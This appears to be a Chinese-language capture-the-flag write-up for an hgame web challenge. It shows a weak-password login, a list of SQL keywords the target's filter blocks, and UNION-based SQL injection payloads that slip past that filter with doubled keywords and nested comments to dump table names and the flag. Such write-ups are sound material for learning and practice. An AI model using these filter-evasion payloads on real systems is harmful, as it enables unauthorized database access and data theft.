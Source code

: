 ![](<./img/Pasted image 20230201093828.png>)

![](<./img/Pasted image 20230201094021.png>)

这里是弱密码爆破

```
Username: user01
Password: admin123
```

```
/home
```

![](<./img/Pasted image 20230201094125.png>)

```
1
```

```
hard disk 1
```

```
2
```

```
toffee bag 3
```

```
0
```

```
Not Found 0
```

```
0select1
```

```
hard disk 1
```

推测存在字符串过滤

测试可得以下黑名单

```
select
union
from
or
where
database
<space>
<
>
=
/**/
```

因为只是常规的查找替换，可以通过套娃来绕过

```
0/*/**/*/ununionion/*/**/*/seselectlect/*/**/*/1,2,3
```

```
2 3
```

注入点为第二和第三列

套出数据库

```
0/*/**/*/ununionion/*/**/*/seselectlect/*/**/*/1,datadatabasebase(),3
```

```
se4rch 3
```

查询`se4rch`的表

```
0/*/**/*/ununionion/*/**/*/seselectlect/*/**/*/1,group_concat(table_name),3/*/**/*/frfromom/*/**/*/infoorrmation_schema.tables/*/**/*/whwhereere/*/**/*/table_schema/*/**/*/like/*/**/*/'se4rch'
```

```
5ecret15here,L1st,user1nf0 3
```

```
0/*/**/*/ununionion/*/**/*/seselectlect/*/**/*/1,group_concat(column_name),3/*/**/*/frfromom/*/**/*/infoorrmation_schema.columns/*/**/*/whwhereere/*/**/*/table_name/*/**/*/like/*/**/*/'5ecret15here'
```

```
f14gggg1shere 3
```

```
0/*/**/*/ununionion/*/**/*/seselectlect/*/**/*/1,group_concat(f14gggg1shere),3/*/**/*/frfromom/*/**/*/se4rch.5ecret15here
```

```
hgame{4_M4n_WH0_Kn0ws_We4k-P4ssW0rd_And_SQL!} 3
```

#Web #SQL注入 #绕过 #联合注入